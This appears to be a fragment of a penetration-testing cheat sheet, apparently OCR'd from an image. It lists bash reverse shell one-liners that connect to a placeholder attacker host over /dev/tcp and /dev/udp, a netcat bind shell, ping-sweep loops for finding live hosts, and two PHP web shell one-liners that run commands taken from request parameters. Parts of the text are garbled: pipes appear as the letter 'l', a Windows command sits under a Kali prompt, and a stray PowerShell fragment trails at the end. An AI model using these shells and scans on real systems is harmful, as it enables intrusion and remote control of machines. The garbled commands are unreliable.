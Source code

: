```bash
0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196
```

\[3]

```bash
exec 5<>/dev/tcp/<ATTACKER-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done
```

\[4]

```bash
bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'
```

**UDP**

```bash
bash -i >& /dev/udp/10.0.0.1/8080 0>&1
```

**Bind Shell**

```bash
nc -lp 4445 -e /bin/bash
```

#### One liner ping sweep scan to determine live hosts

**Linux**

```bash
[1]
root@kali:~$for i in {1..254}; do ping -c 1 10.10.0.$i | grep 'from'; done

[2]
root@kali:~$for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up.

[3]
root@kali:~$ for x in {1 .. 254 .. l};do ping -c 1 l.l.l.$x lgrep "64 b" lcut -d" "-f4
ips.txt; done
```

**Windows**

```
for /L %i in (10,1,254) do @ (for /L %x in (10,1,254) do@ ping -n 1 -w 100
10.10.%i.%x 2 nul | find "Reply" && echo 10.10.%i.%x lhosts-live.txt)
```

#### One Liner PHP shell \[1]

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

#### Php one liner \[2]

```php
<?php system($_REQUEST["cmd"]); ?>
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"